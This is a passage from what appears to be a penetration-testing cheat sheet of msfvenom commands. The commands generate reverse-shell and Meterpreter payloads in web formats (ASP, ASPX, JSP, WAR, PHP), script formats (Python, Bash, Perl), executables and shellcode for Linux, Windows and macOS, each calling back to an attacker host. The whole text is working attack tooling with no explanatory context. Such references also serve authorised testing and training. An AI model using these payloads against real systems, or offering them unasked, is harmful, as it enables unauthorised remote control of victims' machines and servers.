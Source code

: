 <b>ASP:</b>
	
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f asp > <[FILE_NAME.asp]>

<b>JSP:</b>
	
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.jsp]>

<b>WAR:</b>

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f war > <[FILE_NAME.war]>
	
# Scripting Payloads

<b>Python:</b>

	msfvenom -p cmd/unix/reverse_python LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.py]>

<b>Bash:</b>

	msfvenom -p cmd/unix/reverse_bash LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.sh]>

<b>Perl</b>

	msfvenom -p cmd/unix/reverse_perl LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.pl]>

# Shellcode
For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

<b>Linux Based Shellcode:</b>

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f <[LANGUAGE]>

<b>Windows Based Shellcode:</b>

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f <[LANGUAGE]>

<b>Mac Based Shellcode:</b>
	
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f <[LANGUAGE]>

```
#Linux
•msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f elf > shell.elf
# PHP
•msfvenom -p php/meterpreter_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f raw > shell.php
# ASP
•msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.216 LPORT=443 -f asp > shell.asp
# WAR
•msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f war > shell.war
# JSP
•msfvenom -p java/jsp_shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f raw > shell.jsp
# Exe
•msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=445 -f exe -o shell_reverse.exe
# ASPX
•msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=443 -f aspx > shell.aspx
# ASPX-x64 
•msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=1234 -f aspx > 4.aspx
```
